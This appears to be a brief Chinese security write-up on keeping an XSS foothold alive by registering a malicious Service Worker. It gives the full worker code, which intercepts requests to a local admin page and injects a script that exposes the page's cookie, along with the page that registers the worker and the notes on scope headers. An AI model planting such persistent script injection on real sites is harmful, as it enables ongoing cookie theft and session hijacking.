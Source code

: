 - [XSS持久化：Service Worker ~ Misaki's Blog (misakikata.github.io)](https://misakikata.github.io/2021/06/XSS%E6%8C%81%E4%B9%85%E5%8C%96%EF%BC%9AService-Worker/)

先注册一个 service worker

文件名：sw，响应头：

```json
{"Content-Type": "application/javascript","Service-Worker-Allowed":"/"}
```

内容：

```javascript
this.addEventListener('install', function (event) {
  console.log('Service Worker install');
});
this.addEventListener('fetch', function (event) {
    var url = event.request.clone();
    console.log('url: ', url);
    var body = '<script>setTimeout(function() { document.title = document.cookie }, 600);</script>';
    var init = {headers: {"Content-Type": "text/html"}};
    if (url.url === 'https://127.0.0.1:5000/admin/') {
        var res = new Response(body, init);
        event.respondWith(res.clone());
    }
});
```

再注册一个攻击页面

文件名：hack，响应头：

```json
{"Content-Type": "text/html"}
```

内容：

```html
<script>
  if ('serviceWorker' in navigator) {
navigator.serviceWorker.register('/sw/', { scope: '/' })
    .then(function (reg) {
      console.log('success', reg);
    })
    .catch(function (err) {
      console.log('fail', err);
    });
  }
</script>
```

首先需要全程使用`https`才能注册服务，其次要保证两个页面都在一个 scope，但 nginx 会导致资源自动重定向，即`/hack`会重定向到`/hack/`而`/sw`会重定向到`/sw/`，这导致无法注册到上一级，因此`.js`的响应头中需要包含`"Service-Worker-Allowed":"/"`

参考：
